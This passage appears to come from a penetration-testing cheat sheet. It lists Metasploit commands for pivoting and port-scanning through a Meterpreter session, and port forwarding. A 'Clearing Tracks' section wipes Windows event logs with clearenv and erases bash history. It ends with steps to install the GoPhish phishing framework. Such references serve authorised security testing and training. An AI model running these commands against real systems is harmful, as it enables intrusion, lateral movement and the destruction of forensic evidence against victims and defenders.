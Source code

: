 ```
background
use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
set PORTS 1-100
run

# MeterpreterPort Forwarding
portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <TARGET_IP>

db_nmap -sS -sV -p <LOCAL_PORT> localhost
```

**Clearing Tracks**



```
# Windows C:\Temp - Metasploit e.g.
cd C:\\
mkdir Temp
cd Temp # Clean this C:\Temp directory

## Cleanup Meterpreter RC File:
cat /root/.msf4/logs/persistence/<CLEANING_SCRIPT>.rc
background
sessions 1
resource /root/.msf4/logs/persistence/<CLEANING_SCRIPT>.rc
run multi_console_command -r /root/.msf4/logs/scripts/getgui/<CLEANING_SCRIPT>.rc

clearenv

# Linux /tmp
cd /tmp
history -c
cat /dev/null > ~/.bash_history
```

#### Social Engineering



```
# GOPHISH - Linux Install
cd /opt/
# Get the latest version link from https://github.com/gophish/gophish/releases/
sudo wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
sudo unzip -d gophish gophish-v0.12.1-linux-64bit.zip
sudo chmod +x gophish/gophish

cd /opt/gophish && sudo ./gophish

## Run in Docker instead
docker run -ti -p 3333:3333 --rm gophish/demo
```
